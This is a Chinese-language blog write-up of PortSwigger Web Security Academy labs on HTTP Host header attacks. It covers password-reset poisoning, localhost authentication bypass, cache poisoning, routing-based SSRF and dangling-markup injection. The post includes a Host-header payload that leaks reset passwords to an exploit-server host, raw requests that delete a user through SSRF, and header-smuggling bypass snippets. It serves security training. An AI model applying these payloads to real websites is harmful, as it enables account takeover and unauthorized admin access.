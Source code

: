 ```yaml
---
layout: post
author: d1sbb
title: "[复现] HTTP主机头攻击, SSRF"
date: 2024-07-09
music-id: 
permalink: /archives/2024-07-09/1
description: "HTTP主机头攻击的一些攻击手段, 密码重置中毒, 身份验证绕过, 模糊请求进行Web缓存投毒, 基于路由的 SSRF, 通过连接状态攻击绕过主机验证, 通过悬垂标记进行密码重置中毒, Dangling markup"
categories: "网络安全"
tags: [HTTP主机头, Host head, 密码重置, 身份验证绕过, web缓存投毒, 路由SSRF, 通过连接状态攻击绕过主机验证, 通过悬垂标记进行密码重置中毒, Dangling markup]
---
```


## 基本密码重置中毒
[实验室：基本密码重置中毒](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning)

打开靶场 忘记密码功能 输入wiener 发送邮件
![Host](/assets/pic/HostHead/1发送电子邮件.jpg)

在顶部看到Go to exploit server按钮 点击

下拉看到Email client按钮 点击
![Host](/assets/pic/HostHead/2打开exp_server利用.jpg)

可以看到我们收到一封带有URL的电子邮件
![Host](/assets/pic/HostHead/3发送Email_client.jpg)

在该 URL 中，可以看到参数temp-forgot-password-token

单击次链接打开 就可以更改我们自己的密码

翻阅burp的history里找到我们点击忘记密码的那个包

改自定义host头测试
![Host](/assets/pic/HostHead/4忘记密码功能改host头测试.jpg)

现在打开exploit server查看邮件 多出来一封自定义host头的url
![Host](/assets/pic/HostHead/5忘记密码功能查看exp服务器.jpg)

之后点击Back to exploit server 复制url
![Host](/assets/pic/HostHead/6复制exp服务器url.jpg)

修改host为我们复制的url 并且 username=carlos 构造恶意脚本
![Host](/assets/pic/HostHead/7构造恶意包发送.jpg)

查看exploit server上的Access log
![Host](/assets/pic/HostHead/8查看exp服务器上的access_log.jpg)

可以看到carlos的token是ab9ts54oxrsb05llsiznhwxzxc8crolu
![Host](/assets/pic/HostHead/9得到carlos账号的token.jpg)

再去Email client里找到我们第一次收到的修改密码url地址并复制
![Host](/assets/pic/HostHead/10替换成新的token打开.jpg)

把盗取carlos的token替换上去
![Host](/assets/pic/HostHead/11替换后的新token.jpg)

成功
![Host](/assets/pic/HostHead/12success.jpg)
## 主机标头身份验证绕过 - Host: localhost
[实验室：绕过主机头身份验证](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass)

正常访问/admin 状态码是401
![Host](/assets/pic/HostHead/13访问admin目录发现401.jpg)

抓包修改Host: localhost  返回状态码200
![Host](/assets/pic/HostHead/14访问admin目录修改host为localhost返回200.jpg)

## 通过模糊请求进行Web缓存投毒 - 添加重复的Host头
[实验室：通过模糊请求进行Web 缓存投毒](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests)

正常访问主页 返回头X-Cache: hit
![Host](/assets/pic/HostHead/15缓存中毒.jpg)

再Repeater发送 发现返回头X-Cache: miss
![Host](/assets/pic/HostHead/16缓存中毒双写host绕过.jpg)

得知请求是否已缓存在缓存中，可以双写Host进行web缓存投毒
![Host](/assets/pic/HostHead/17缓存中毒双写host绕过.jpg)

进入exploit server 构造payload
![Host](/assets/pic/HostHead/18缓存中毒双写host绕过.jpg)

成功弹窗
![Host](/assets/pic/HostHead/19success.jpg)

## 基于路由的 SSRF
[实验室：基于路由的 SSRF](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf)

访问靶场/根目录 发送到 Burp Repeater里。

把 Host 标头值，替换成主机的DNSlog。发送请求。
![DNSlog](/assets/pic/HostHead/20DNSlog.jpg)

转到 Burp Collaborator 单击Poll now。证明存在SSRF漏洞

将请求包转到 Burp Intruder。

别忘了关掉"更新主机标头以匹配目标"。

将 Host 值替换成192.168.0.§0§
![Intruder](/assets/pic/HostHead/21Intruder.jpg)

在Payloads选项卡上，选择有效载荷类型Numbers。值为0-255

攻击完成后 Host: 192.168.0.130收到了 302 响应，将您重定向到/admin。将此请求发送到 Burp Repeater。
![响应192.168.0.130](/assets/pic/HostHead/22响应192.168.0.130.jpg)

在 Burp Repeater 中，将请求行更改为GET /admin并发送请求。在响应中，观察到已成功访问管理面板。
![admin](/assets/pic/HostHead/23admin.jpg)

如果返回值有Set-Cookie也要把session=NdxPNRKQB4U1Zh3tEXxpureUIPZBdwWP;放到COOKIE头里

研究删除用户的表单。发现GET /admin/delete?csrf=IFTk0ynPl5zbGBOJL6FoYVMBdu3VGHbM&username=carlos
![success](/assets/pic/HostHead/24_success.jpg)

成功删除carlos用户
## 通过有缺陷的请求解析实现 SSRF - 使用绝对路径的URL
[实验室：通过有缺陷的请求解析实现 SSRF](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)

改HOST头发现 403 Forbidden
![使用绝对路径的URL](/assets/pic/HostHead/25使用绝对路径的URL.jpg)

在GET /这里，改成GET https://0a15007703ba975b80021c8700b0007e.web-security-academy.net/ 
HOST头改成主机的DNSlog
![DNSlog使用绝对路径的URL](/assets/pic/HostHead/26DNSlog使用绝对路径的URL.jpg)

证明存在SSRF漏洞

就可以继续用 [实验室：基于路由的 SSRF] 漏洞重复操作
![SSRF](/assets/pic/HostHead/27SSRF.jpg)
![SSRF](/assets/pic/HostHead/28SSRF.jpg)

```
GET https://0a15007703ba975b80021c8700b0007e.web-security-academy.net/admin/delete?csrf=iOqRsO97wC8gYxjryI6qUjujASVASVlM&username=carlos HTTP/2
Host: 192.168.0.50
```
成功删除carlos用户 返回302

## 通过连接状态攻击绕过主机验证 - Burp Repeater Group
[实验室：通过连接状态攻击绕过主机验证](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack)

将请求发送GET /到 Burp Repeater。

将路径更改为/admin 发送请求，返回404

将Host值改为192.168.0.1，返回301，证明可行
![返回状态301](/assets/pic/HostHead/29_192.168.0.1_返回状态301.jpg)

复制选项卡，然后将两个选项卡添加到新组中。 选择第一个选项卡的请求头更改GET /  Host值改回原来服务器的正常请求头 将Connection标题更改为keep-alive(貌似不加也可以)
![正常请求头](/assets/pic/HostHead/30Host值改回原来服务器的正常请求头.jpg)

使用发送，按钮旁边的下拉菜单，将发送模式更改为按顺序发送组（单连接）

发送请求包后，在第二个选项卡里请求已成功访问admin目录
![恶意请求头](/assets/pic/HostHead/31恶意请求头.jpg)

就可以继续用 [实验室：基于路由的 SSRF] 漏洞重复操作
![success](/assets/pic/HostHead/32success.jpg)

## 通过悬垂标记进行密码重置中毒 - 忽略端口仅校验域名 - Dangling markup技术
[实验室：通过悬垂标记进行密码重置中毒](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup)

转到登录页面并请求重置wiener帐户密码

进入漏洞服务器，打开邮件客户端，找到密码重置邮件

在burp历史记录中， 将请求发送POST /forgot-password到 Burp Repeater

篡改 Host 标头中的域名会导致服务器错误。
![携带disbb](/assets/pic/HostHead/33disbb.jpg)

但是，可以向 Host 标头添加任意非数字端口，并且仍能正常访问站点。
Host: xxx.web-security-academy.net:disbb
![携带disbb](/assets/pic/HostHead/34携带disbb.jpg)

在电子邮件客户端中，检查电子邮件的原始版本 就可以看到携带了disbb
![携带disbb](/assets/pic/HostHead/35邮件携带了disbb.jpg)

再次发送POST /forgot-password请求，把disbb改成恶意代码脚本
Host: xxx.net:'<a href="//exp123.exploit-server.net/?
![恶意exp](/assets/pic/HostHead/36恶意exp.jpg)

检查电子邮件客户端。您应该已经收到一封新邮件，其中大部分内容缺失。
![查看邮件源码](/assets/pic/HostHead/37查看邮件源码.jpg)

转到漏洞服务器并检查访问日志。看到 GET /?/login'>[…]，其中包括新密码。
![服务器log](/assets/pic/HostHead/38服务器log.jpg)

在 Burp Repeater 中，最后一次发送请求，但将参数更改username为carlos。
![修改carlos用户](/assets/pic/HostHead/39修改carlos用户.jpg)

刷新访问日志就可以看到carlos用户的新密码。

# 其他绕过方式
## 添加缩进或换行
当一些站点block带有多个Host头的请求时，可以通过添加缩进字符的HTTP头来绕过：
```
GET /example HTTP/1.1
 Host: attack-stuff
Host: vulnerable-website.com
```
## 注入覆盖Host头的字段
与Host头功能相近的字段，如X-Forwarded-Host、X-Forwarded-For等，这些有时候是默认开启的。
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: attack-stuff
```